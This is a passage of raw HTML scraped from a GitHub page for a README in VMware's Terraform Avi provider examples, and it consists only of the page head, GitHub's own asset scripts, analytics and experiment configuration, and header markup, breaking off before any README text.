    <script crossorigin="anonymous" defer="defer" integrity="sha512-yxNOcJg4rvGRpQr6+SEa/h1pLruduSOJbs4dgMMJwtOzVsB7rnUjUmWA38lXw8UpWPzudIIdESY0SgO0HVFiAA==" type="application/javascript" data-module-id="./chunk-action-list-element.js" data-src="https://github.githubassets.com/assets/chunk-action-list-element-cb134e70.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-SyYXfc8EbLO9BnTas69LeNMF6aXITT41QqsFoIuEHHt/0i9+WQAV7ZFBu944TFS7HHFu9eRgmdq1MU/W12Q8xw==" type="application/javascript" data-module-id="./chunk-sortable-behavior.js" data-src="https://github.githubassets.com/assets/chunk-sortable-behavior-4b26177d.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-6JUQHgkTqBaCCdDugMcO4fQ8YxUHk+m6rwVp2Wxa4FMVz6BbBMPOzGluT4wBq8NTUcFv6DnXSOnt5e85jNgpGg==" type="application/javascript" data-module-id="./chunk-drag-drop.js" data-src="https://github.githubassets.com/assets/chunk-drag-drop-e895101e.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-28pipPJZvizfcYYETJWBBeDHsrDEz7A06d7Y5swgY/OWmsX0ZJW6mkZVFRO7Z/xZh1D1qFbPHGNixfCd1YpBnA==" type="application/javascript" data-module-id="./chunk-contributions-spider-graph.js" data-src="https://github.githubassets.com/assets/chunk-contributions-spider-graph-dbca62a4.js"></script>
    <script crossorigin="anonymous" defer="defer" integrity="sha512-y0yuiXfWuIeCCcUBT1jacp25vWnFCJWgwLM5G1VM4tmCHdoQbiVjvW/vuSuEXUjtS8WwdioTD5hVv9UULiUlww==" type="application/javascript" data-module-id="./chunk-webgl-warp.js" data-src="https://github.githubassets.com/assets/chunk-webgl-warp-cb4cae89.js"></script>
  
  <script crossorigin="anonymous" defer="defer" integrity="sha512-yv3XQU3M3vzHHsCREDotOtzCeH8nB7aQQ3mDbPhGYKwHyX8U4+oEzmBSo2wIz4wWdMa/bdJiX7fNsAAHMwN+aA==" type="application/javascript" src="https://github.githubassets.com/assets/repositories-cafdd741.js"></script>
<script crossorigin="anonymous" defer="defer" integrity="sha512-sIzPbFNg+f+72jvT/uWwVCXW0jlK7OzkdRue6Gu6NvYsVXqK2k23f6ELnh7rSlj427/DG3Jxs+jHrjXuG751Mw==" type="application/javascript" src="https://github.githubassets.com/assets/diffs-b08ccf6c.js"></script>

  <meta name="viewport" content="width=device-width">
  
  <title>terraform-provider-avi/README.adoc at 2d7d39e536a50fea70fdad2828540b6f04301807 · vmware/terraform-provider-avi · GitHub</title>
    <meta name="description" content="Terraform AVI Networks provider. Contribute to vmware/terraform-provider-avi development by creating an account on GitHub.">
    <link rel="search" type="application/opensearchdescription+xml" href="/opensearch.xml" title="GitHub">
  <link rel="fluid-icon" href="https://github.com/fluidicon.png" title="GitHub">
  <meta property="fb:app_id" content="1401488693436528">
  <meta name="apple-itunes-app" content="app-id=1477376905" />
    <meta name="twitter:image:src" content="https://opengraph.githubassets.com/bcfe0566085932eec43e50db80151fb34e5c57aeca5ac81ddef1696b2d74d7ff/vmware/terraform-provider-avi" /><meta name="twitter:site" content="@github" /><meta name="twitter:card" content="summary_large_image" /><meta name="twitter:title" content="terraform-provider-avi/README.adoc at 2d7d39e536a50fea70fdad2828540b6f04301807 · vmware/terraform-provider-avi" /><meta name="twitter:description" content="Terraform AVI Networks provider. Contribute to vmware/terraform-provider-avi development by creating an account on GitHub." />
    <meta property="og:image" content="https://opengraph.githubassets.com/bcfe0566085932eec43e50db80151fb34e5c57aeca5ac81ddef1696b2d74d7ff/vmware/terraform-provider-avi" /><meta property="og:image:alt" content="Terraform AVI Networks provider. Contribute to vmware/terraform-provider-avi development by creating an account on GitHub." /><meta property="og:image:width" content="1200" /><meta property="og:image:height" content="600" /><meta property="og:site_name" content="GitHub" /><meta property="og:type" content="object" /><meta property="og:title" content="terraform-provider-avi/README.adoc at 2d7d39e536a50fea70fdad2828540b6f04301807 · vmware/terraform-provider-avi" /><meta property="og:url" content="https://github.com/vmware/terraform-provider-avi" /><meta property="og:description" content="Terraform AVI Networks provider. Contribute to vmware/terraform-provider-avi development by creating an account on GitHub." />
    



    

  <link rel="assets" href="https://github.githubassets.com/">
  

  <meta name="request-id" content="CB29:91AC:37C6D:4D67C:6196BED2" data-pjax-transient="true"/><meta name="html-safe-nonce" content="eaee3b406948fc0a2382460926508e5f51061b802392c1a100abd5b17ec33243" data-pjax-transient="true"/><meta name="visitor-payload" content="eyJyZWZlcnJlciI6IiIsInJlcXVlc3RfaWQiOiJDQjI5OjkxQUM6MzdDNkQ6NEQ2N0M6NjE5NkJFRDIiLCJ2aXNpdG9yX2lkIjoiNjA3Njk3Mjk0OTg1MjA0NTAxMCIsInJlZ2lvbl9lZGdlIjoic2VhIiwicmVnaW9uX3JlbmRlciI6InNlYSJ9" data-pjax-transient="true"/><meta name="visitor-hmac" content="be77f7462de4472e3b8997628e63a63f337d1ee794dc2bc3c338d4b44619d4f8" data-pjax-transient="true"/>

    <meta name="hovercard-subject-tag" content="repository:196468806" data-pjax-transient>


  <meta name="github-keyboard-shortcuts" content="repository,source-code" data-pjax-transient="true" />

  

  <meta name="selected-link" value="repo_source" data-pjax-transient>

    <meta name="google-site-verification" content="c1kuD-K2HIVF635lypcsWPoD4kilo5-jA_wBFyT4uMY">
  <meta name="google-site-verification" content="KT5gs8h0wvaagLKAVWq8bbeNwnZZK1r1XQysX3xurLU">
  <meta name="google-site-verification" content="ZzhVyEFwb7w3e0-uOTltm8Jsck2F5StVihD0exw2fsA">
  <meta name="google-site-verification" content="GXs5KoUUkNCoaAZn7wPN-t01Pywp9M3sEjnt_3_ZWPc">

<meta name="octolytics-url" content="https://collector.githubapp.com/github/collect" />

  <meta name="analytics-location" content="/&lt;user-name&gt;/&lt;repo-name&gt;/blob/show" data-pjax-transient="true" />

  



  <meta name="optimizely-datafile" content="{&quot;version&quot;: &quot;4&quot;, &quot;rollouts&quot;: [], &quot;typedAudiences&quot;: [], &quot;anonymizeIP&quot;: true, &quot;projectId&quot;: &quot;16737760170&quot;, &quot;variables&quot;: [], &quot;featureFlags&quot;: [], &quot;experiments&quot;: [{&quot;status&quot;: &quot;Running&quot;, &quot;audienceIds&quot;: [], &quot;variations&quot;: [{&quot;variables&quot;: [], &quot;id&quot;: &quot;20438636352&quot;, &quot;key&quot;: &quot;control&quot;}, {&quot;variables&quot;: [], &quot;id&quot;: &quot;20484957397&quot;, &quot;key&quot;: &quot;treatment&quot;}], &quot;id&quot;: &quot;20479227424&quot;, &quot;key&quot;: &quot;growth_ghec_onboarding_experience&quot;, &quot;layerId&quot;: &quot;20467848595&quot;, &quot;trafficAllocation&quot;: [{&quot;entityId&quot;: &quot;20484957397&quot;, &quot;endOfRange&quot;: 1000}, {&quot;entityId&quot;: &quot;20484957397&quot;, &quot;endOfRange&quot;: 3000}, {&quot;entityId&quot;: &quot;20484957397&quot;, &quot;endOfRange&quot;: 5000}, {&quot;entityId&quot;: &quot;20484957397&quot;, &quot;endOfRange&quot;: 6000}, {&quot;entityId&quot;: &quot;20484957397&quot;, &quot;endOfRange&quot;: 8000}, {&quot;entityId&quot;: &quot;20484957397&quot;, &quot;endOfRange&quot;: 10000}], &quot;forcedVariations&quot;: {&quot;85e2238ce2b9074907d7a3d91d6feeae&quot;: &quot;control&quot;}}, {&quot;status&quot;: &quot;Running&quot;, &quot;audienceIds&quot;: [], &quot;variations&quot;: [{&quot;variables&quot;: [], &quot;id&quot;: &quot;20667381018&quot;, &quot;key&quot;: &quot;control&quot;}, {&quot;variables&quot;: [], &quot;id&quot;: &quot;20680930759&quot;, &quot;key&quot;: &quot;treatment&quot;}], &quot;id&quot;: &quot;20652570897&quot;, &quot;key&quot;: &quot;project_genesis&quot;, &quot;layerId&quot;: &quot;20672300363&quot;, &quot;trafficAllocation&quot;: [{&quot;entityId&quot;: &quot;20667381018&quot;, &quot;endOfRange&quot;: 5000}, {&quot;entityId&quot;: &quot;20680930759&quot;, &quot;endOfRange&quot;: 10000}], &quot;forcedVariations&quot;: {&quot;83356e17066d336d1803024138ecb683&quot;: &quot;treatment&quot;, &quot;18e31c8a9b2271332466133162a4aa0d&quot;: &quot;treatment&quot;, &quot;10f8ab3fbc5ebe989a36a05f79d48f32&quot;: &quot;treatment&quot;, &quot;1686089f6d540cd2deeaec60ee43ecf7&quot;: &quot;treatment&quot;}}], &quot;audiences&quot;: [{&quot;conditions&quot;: &quot;[\&quot;or\&quot;, {\&quot;match\&quot;: \&quot;exact\&quot;, \&quot;name\&quot;: \&quot;$opt_dummy_attribute\&quot;, \&quot;type\&quot;: \&quot;custom_attribute\&quot;, \&quot;value\&quot;: \&quot;$opt_dummy_value\&quot;}]&quot;, &quot;id&quot;: &quot;$opt_dummy_audience&quot;, &quot;name&quot;: &quot;Optimizely-Generated Audience for Backwards Compatibility&quot;}], &quot;groups&quot;: [], &quot;sdkKey&quot;: &quot;WTc6awnGuYDdG98CYRban&quot;, &quot;environmentKey&quot;: &quot;production&quot;, &quot;attributes&quot;: [{&quot;id&quot;: &quot;16822470375&quot;, &quot;key&quot;: &quot;user_id&quot;}, {&quot;id&quot;: &quot;17143601254&quot;, &quot;key&quot;: &quot;spammy&quot;}, {&quot;id&quot;: &quot;18175660309&quot;, &quot;key&quot;: &quot;organization_plan&quot;}, {&quot;id&quot;: &quot;18813001570&quot;, &quot;key&quot;: &quot;is_logged_in&quot;}, {&quot;id&quot;: &quot;19073851829&quot;, &quot;key&quot;: &quot;geo&quot;}, {&quot;id&quot;: &quot;20175462351&quot;, &quot;key&quot;: &quot;requestedCurrency&quot;}, {&quot;id&quot;: &quot;20785470195&quot;, &quot;key&quot;: &quot;country_code&quot;}], &quot;botFiltering&quot;: false, &quot;accountId&quot;: &quot;16737760170&quot;, &quot;events&quot;: [{&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;17911811441&quot;, &quot;key&quot;: &quot;hydro_click.dashboard.teacher_toolbox_cta&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18124116703&quot;, &quot;key&quot;: &quot;submit.organizations.complete_sign_up&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18145892387&quot;, &quot;key&quot;: &quot;no_metric.tracked_outside_of_optimizely&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18178755568&quot;, &quot;key&quot;: &quot;click.org_onboarding_checklist.add_repo&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18180553241&quot;, &quot;key&quot;: &quot;submit.repository_imports.create&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18186103728&quot;, &quot;key&quot;: &quot;click.help.learn_more_about_repository_creation&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18188530140&quot;, &quot;key&quot;: &quot;test_event.do_not_use_in_production&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18191963644&quot;, &quot;key&quot;: &quot;click.empty_org_repo_cta.transfer_repository&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18195612788&quot;, &quot;key&quot;: &quot;click.empty_org_repo_cta.import_repository&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18210945499&quot;, &quot;key&quot;: &quot;click.org_onboarding_checklist.invite_members&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18211063248&quot;, &quot;key&quot;: &quot;click.empty_org_repo_cta.create_repository&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18215721889&quot;, &quot;key&quot;: &quot;click.org_onboarding_checklist.update_profile&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18224360785&quot;, &quot;key&quot;: &quot;click.org_onboarding_checklist.dismiss&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18234832286&quot;, &quot;key&quot;: &quot;submit.organization_activation.complete&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18252392383&quot;, &quot;key&quot;: &quot;submit.org_repository.create&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18257551537&quot;, &quot;key&quot;: &quot;submit.org_member_invitation.create&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18259522260&quot;, &quot;key&quot;: &quot;submit.organization_profile.update&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18564603625&quot;, &quot;key&quot;: &quot;view.classroom_select_organization&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18568612016&quot;, &quot;key&quot;: &quot;click.classroom_sign_in_click&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18572592540&quot;, &quot;key&quot;: &quot;view.classroom_name&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18574203855&quot;, &quot;key&quot;: &quot;click.classroom_create_organization&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18582053415&quot;, &quot;key&quot;: &quot;click.classroom_select_organization&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18589463420&quot;, &quot;key&quot;: &quot;click.classroom_create_classroom&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18591323364&quot;, &quot;key&quot;: &quot;click.classroom_create_first_classroom&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18591652321&quot;, &quot;key&quot;: &quot;click.classroom_grant_access&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;18607131425&quot;, &quot;key&quot;: &quot;view.classroom_creation&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;18831680583&quot;, &quot;key&quot;: &quot;upgrade_account_plan&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19064064515&quot;, &quot;key&quot;: &quot;click.signup&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19075373687&quot;, &quot;key&quot;: &quot;click.view_account_billing_page&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19077355841&quot;, &quot;key&quot;: &quot;click.dismiss_signup_prompt&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19079713938&quot;, &quot;key&quot;: &quot;click.contact_sales&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19120963070&quot;, &quot;key&quot;: &quot;click.compare_account_plans&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19151690317&quot;, &quot;key&quot;: &quot;click.upgrade_account_cta&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19424193129&quot;, &quot;key&quot;: &quot;click.open_account_switcher&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19520330825&quot;, &quot;key&quot;: &quot;click.visit_account_profile&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19540970635&quot;, &quot;key&quot;: &quot;click.switch_account_context&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19730198868&quot;, &quot;key&quot;: &quot;submit.homepage_signup&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19820830627&quot;, &quot;key&quot;: &quot;click.homepage_signup&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;19988571001&quot;, &quot;key&quot;: &quot;click.create_enterprise_trial&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20036538294&quot;, &quot;key&quot;: &quot;click.create_organization_team&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20040653299&quot;, &quot;key&quot;: &quot;click.input_enterprise_trial_form&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20062030003&quot;, &quot;key&quot;: &quot;click.continue_with_team&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20068947153&quot;, &quot;key&quot;: &quot;click.create_organization_free&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20086636658&quot;, &quot;key&quot;: &quot;click.signup_continue.username&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20091648988&quot;, &quot;key&quot;: &quot;click.signup_continue.create_account&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20103637615&quot;, &quot;key&quot;: &quot;click.signup_continue.email&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20111574253&quot;, &quot;key&quot;: &quot;click.signup_continue.password&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20120044111&quot;, &quot;key&quot;: &quot;view.pricing_page&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20152062109&quot;, &quot;key&quot;: &quot;submit.create_account&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20165800992&quot;, &quot;key&quot;: &quot;submit.upgrade_payment_form&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20171520319&quot;, &quot;key&quot;: &quot;submit.create_organization&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20222645674&quot;, &quot;key&quot;: &quot;click.recommended_plan_in_signup.discuss_your_needs&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20227443657&quot;, &quot;key&quot;: &quot;submit.verify_primary_user_email&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20234607160&quot;, &quot;key&quot;: &quot;click.recommended_plan_in_signup.try_enterprise&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20238175784&quot;, &quot;key&quot;: &quot;click.recommended_plan_in_signup.team&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20239847212&quot;, &quot;key&quot;: &quot;click.recommended_plan_in_signup.continue_free&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20251097193&quot;, &quot;key&quot;: &quot;recommended_plan&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20438619534&quot;, &quot;key&quot;: &quot;click.pricing_calculator.1_member&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20456699683&quot;, &quot;key&quot;: &quot;click.pricing_calculator.15_members&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20467868331&quot;, &quot;key&quot;: &quot;click.pricing_calculator.10_members&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20476267432&quot;, &quot;key&quot;: &quot;click.trial_days_remaining&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20476357660&quot;, &quot;key&quot;: &quot;click.discover_feature&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20479287901&quot;, &quot;key&quot;: &quot;click.pricing_calculator.custom_members&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20481107083&quot;, &quot;key&quot;: &quot;click.recommended_plan_in_signup.apply_teacher_benefits&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20483089392&quot;, &quot;key&quot;: &quot;click.pricing_calculator.5_members&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;, &quot;20652570897&quot;], &quot;id&quot;: &quot;20484283944&quot;, &quot;key&quot;: &quot;click.onboarding_task&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20484996281&quot;, &quot;key&quot;: &quot;click.recommended_plan_in_signup.apply_student_benefits&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20486713726&quot;, &quot;key&quot;: &quot;click.onboarding_task_breadcrumb&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20490791319&quot;, &quot;key&quot;: &quot;click.upgrade_to_enterprise&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20491786766&quot;, &quot;key&quot;: &quot;click.talk_to_us&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20494144087&quot;, &quot;key&quot;: &quot;click.dismiss_enterprise_trial&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;, &quot;20652570897&quot;], &quot;id&quot;: &quot;20499722759&quot;, &quot;key&quot;: &quot;completed_all_tasks&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;, &quot;20652570897&quot;], &quot;id&quot;: &quot;20500710104&quot;, &quot;key&quot;: &quot;completed_onboarding_tasks&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20513160672&quot;, &quot;key&quot;: &quot;click.read_doc&quot;}, {&quot;experimentIds&quot;: [&quot;20652570897&quot;], &quot;id&quot;: &quot;20516196762&quot;, &quot;key&quot;: &quot;actions_enabled&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20518980986&quot;, &quot;key&quot;: &quot;click.dismiss_trial_banner&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20535446721&quot;, &quot;key&quot;: &quot;click.issue_actions_prompt.dismiss_prompt&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20557002247&quot;, &quot;key&quot;: &quot;click.issue_actions_prompt.setup_workflow&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20595070227&quot;, &quot;key&quot;: &quot;click.pull_request_setup_workflow&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20626600314&quot;, &quot;key&quot;: &quot;click.seats_input&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20642310305&quot;, &quot;key&quot;: &quot;click.decrease_seats_number&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20662990045&quot;, &quot;key&quot;: &quot;click.increase_seats_number&quot;}, {&quot;experimentIds&quot;: [], &quot;id&quot;: &quot;20679620969&quot;, &quot;key&quot;: &quot;click.public_product_roadmap&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20761240940&quot;, &quot;key&quot;: &quot;click.dismiss_survey_banner&quot;}, {&quot;experimentIds&quot;: [&quot;20479227424&quot;], &quot;id&quot;: &quot;20767210721&quot;, &quot;key&quot;: &quot;click.take_survey&quot;}, {&quot;experimentIds&quot;: [&quot;20652570897&quot;], &quot;id&quot;: &quot;20795281201&quot;, &quot;key&quot;: &quot;click.archive_list&quot;}], &quot;revision&quot;: &quot;974&quot;}" />
  <!-- To prevent page flashing, the optimizely JS needs to be loaded in the
    <head> tag before the DOM renders -->
  <script crossorigin="anonymous" defer="defer" integrity="sha512-stPGyO+GUOomTBqs1Y5EJnkYCf8cb/wFveUz/ncDr9XaP9olIwZerGQr4wFA3nBNqhbaqHsYbf0NfWJZ6XHjrg==" type="application/javascript" src="https://github.githubassets.com/assets/optimizely-b2d3c6c8.js"></script>



  

      <meta name="hostname" content="github.com">
    <meta name="user-login" content="">


      <meta name="expected-hostname" content="github.com">


    <meta name="enabled-features" content="MARKETPLACE_PENDING_INSTALLATIONS,FILE_UPLOAD_CURSOR_POSITION">

  <meta http-equiv="x-pjax-version" content="cdbb6b153fbc49c112e16020084f612466b1be50d04891e417bc559e2f99e27a">
  <meta http-equiv="x-pjax-csp-version" content="9ea82e8060ac9d44365bfa193918b70ed58abd9413362ba412abb161b3a8d1b6">
  <meta http-equiv="x-pjax-css-version" content="1ba20ae596fc096cc3bfcb5237cf93ba49ce071818695bb85ca7f6690ba0ab2d">
  <meta http-equiv="x-pjax-js-version" content="48703c0702d806429b18b916a5fb551889f923bf309677b0fef3663be9c267d4">
  

    
  <meta name="go-import" content="github.com/vmware/terraform-provider-avi git https://github.com/vmware/terraform-provider-avi.git">

  <meta name="octolytics-dimension-user_id" content="473334" /><meta name="octolytics-dimension-user_login" content="vmware" /><meta name="octolytics-dimension-repository_id" content="196468806" /><meta name="octolytics-dimension-repository_nwo" content="vmware/terraform-provider-avi" /><meta name="octolytics-dimension-repository_public" content="true" /><meta name="octolytics-dimension-repository_is_fork" content="false" /><meta name="octolytics-dimension-repository_network_root_id" content="196468806" /><meta name="octolytics-dimension-repository_network_root_nwo" content="vmware/terraform-provider-avi" />



    <link rel="canonical" href="https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc" data-pjax-transient>


  <meta name="browser-stats-url" content="https://api.github.com/_private/browser/stats">

  <meta name="browser-errors-url" content="https://api.github.com/_private/browser/errors">

  <meta name="browser-optimizely-client-errors-url" content="https://api.github.com/_private/browser/optimizely_client/errors">

  <link rel="mask-icon" href="https://github.githubassets.com/pinned-octocat.svg" color="#000000">
  <link rel="alternate icon" class="js-site-favicon" type="image/png" href="https://github.githubassets.com/favicons/favicon.png">
  <link rel="icon" class="js-site-favicon" type="image/svg+xml" href="https://github.githubassets.com/favicons/favicon.svg">

<meta name="theme-color" content="#1e2327">
<meta name="color-scheme" content="light dark" />


  <link rel="manifest" href="/manifest.json" crossOrigin="use-credentials">

  </head>

  <body class="logged-out env-production page-responsive page-blob" style="word-wrap: break-word;">
    

    <div class="position-relative js-header-wrapper ">
      <a href="#start-of-content" class="px-2 py-4 color-bg-accent-emphasis color-text-white show-on-focus js-skip-to-content">Skip to content</a>
      <span data-view-component="true" class="progress-pjax-loader js-pjax-loader-bar Progress position-fixed width-full">
    <span style="width: 0%;" data-view-component="true" class="Progress-item progress-pjax-loader-bar color-bg-info-inverse"></span>
</span>      
      


        

            <header class="Header-old header-logged-out js-details-container Details position-relative f4 py-2" role="banner">
  <div class="container-xl d-lg-flex flex-items-center p-responsive">
    <div class="d-flex flex-justify-between flex-items-center">
      <a class="mr-4 color-fg-inherit" href="https://github.com/" aria-label="Homepage" data-ga-click="(Logged out) Header, go to homepage, icon:logo-wordmark">
        <svg height="32" aria-hidden="true" viewBox="0 0 16 16" version="1.1" width="32" data-view-component="true" class="octicon octicon-mark-github">
    <path fill-rule="evenodd" d="M8 0C3.58 0 0 3.58 0 8c0 3.54 2.29 6.53 5.47 7.59.4.07.55-.17.55-.38 0-.19-.01-.82-.01-1.49-2.01.37-2.53-.49-2.69-.94-.09-.23-.48-.94-.82-1.13-.28-.15-.68-.52-.01-.53.63-.01 1.08.58 1.23.82.72 1.21 1.87.87 2.33.66.07-.52.28-.87.51-1.07-1.78-.2-3.64-.89-3.64-3.95 0-.87.31-1.59.82-2.15-.08-.2-.36-1.02.08-2.12 0 0 .67-.21 2.2.82.64-.18 1.32-.27 2-.27.68 0 1.36.09 2 .27 1.53-1.04 2.2-.82 2.2-.82.44 1.1.16 1.92.08 2.12.51.56.82 1.27.82 2.15 0 3.07-1.87 3.75-3.65 3.95.29.25.54.73.54 1.48 0 1.07-.01 1.93-.01 2.2 0 .21.15.46.55.38A8.013 8.013 0 0016 8c0-4.42-3.58-8-8-8z"></path>
</svg>
      </a>

        <div class="d-lg-none css-truncate css-truncate-target width-fit p-2">
          

        </div>

      <div class="d-flex flex-items-center">
            <a href="/signup?ref_cta=Sign+up&amp;ref_loc=header+logged+out&amp;ref_page=%2F%3Cuser-name%3E%2F%3Crepo-name%3E%2Fblob%2Fshow&amp;source=header-repo"
              class="d-inline-block d-lg-none f5 no-underline border color-border-default rounded-2 px-2 py-1 mr-3 mr-sm-5 color-fg-inherit"
              data-hydro-click="{&quot;event_type&quot;:&quot;authentication.click&quot;,&quot;payload&quot;:{&quot;location_in_page&quot;:&quot;site header&quot;,&quot;repository_id&quot;:null,&quot;auth_type&quot;:&quot;SIGN_UP&quot;,&quot;originating_url&quot;:&quot;https://github.com/vmware/terraform-provider-avi/blob/2d7d39e536a50fea70fdad2828540b6f04301807/examples/aws/cluster_stages/6_avi_app/README.adoc&quot;,&quot;user_id&quot;:null}}" data-hydro-click-hmac="0db03b6fed6edaa9c7178d90c8d70f059a4ddf1d9e51a2f11e6af10c8740a668"
            >
              Sign&nbsp;up
            </a>

        <button aria-label="Toggle navigation" aria-expanded="false" type="button" data-view-component="true" class="js-details-target btn-link d-lg-none mt-1 color-fg-inherit">
  
  
          <svg aria-hidden="true" height="24" viewBox="0 0 16 16" version="1.1" width="24" data-view-component="true" class="octicon octicon-three-bars">
    <path fill-rule="evenodd" d="M1 2.75A.75.75 0 011.75 2h12.5a.75.75 0 110 1.5H1.75A.75.75 0 011 2.75zm0 5A.75.75 0 011.75 7h12.5a.75.75 0 110 1.5H1.75A.75.75 0 011 7.75zM1.75 12a.75.75 0 100 1.5h12.5a.75.75 0 100-1.5H1.75z"></path>
</svg>

  

</button>      </div>
    </div>

    <div class="HeaderMenu HeaderMenu--logged-out position-fixed top-0 right-0 bottom-0 height-fit position-lg-relative d-lg-flex flex-justify-between flex-items-center flex-auto">
      <div class="d-flex d-lg-none flex-justify-end border-bottom color-bg-subtle p-3">
        <button aria-label="Toggle navigation" aria-expanded="false" type="button" data-view-component="true" class="js-details-target btn-link">
  
  
          <svg aria-hidden="true" height="24" viewBox="0 0 24 24" version="1.1" width="24" data-view-component="true" class="octicon octicon-x color-fg-muted">
    <path fill-rule="evenodd" d="M5.72 5.72a.75.75 0 011.06 0L12 10.94l5.22-5.22a.75.75 0 111.06 1.06L13.06 12l5.22 5.22a.75.75 0 11-1.06 1.06L12 13.06l-5.22 5.22a.75.75 0 01-1.06-1.06L10.94 12 5.72 6.78a.75.75 0 010-1.06z"></path>
</svg>

  

</button>      </div>

        <nav class="mt-0 px-3 px-lg-0 mb-5 mb-lg-0" aria-label="Global">
          <ul class="d-lg-flex list-style-none">
